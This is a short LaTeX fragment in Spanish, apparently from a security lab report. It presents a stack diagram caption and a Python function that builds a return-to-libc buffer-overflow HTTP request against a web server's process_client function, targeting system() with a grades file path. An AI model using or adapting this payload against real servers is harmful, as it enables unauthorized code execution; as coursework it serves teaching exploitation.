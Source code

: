 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{figure}
 \centering
 \includegraphics[scale = 0.7]{pila2.png}
 \caption{Diagrama de la pila de la función \textit{process\_client} con el ataque libc}
 \label{fig:pila2}
\end{figure}


El segundo exploit es el siguiente:

\begin{lstlisting}
http_none_dir = 0x80495ea
system_dir = 0x40102450
path_dir = 0xbfffde18

def build_exploit(shellcode):
    command = "/home/httpd/grades.txt"

    req =   "GET /"

    for i in range(0,1008):
        req = req + 'A'
    req = req + struct.pack("<I",http_none_dir)
    for i in range(0,12):
        req = req + 'B'
    req = req + struct.pack("<I",system_dir)
    req = req + "SEXY"
    req = req + struct.pack("<I",path_dir)
    req = req + command

    req = req + " HTTP/1.0\r\n" + \
        "\r\n"
    return req
\end{lstlisting}
\end{document}
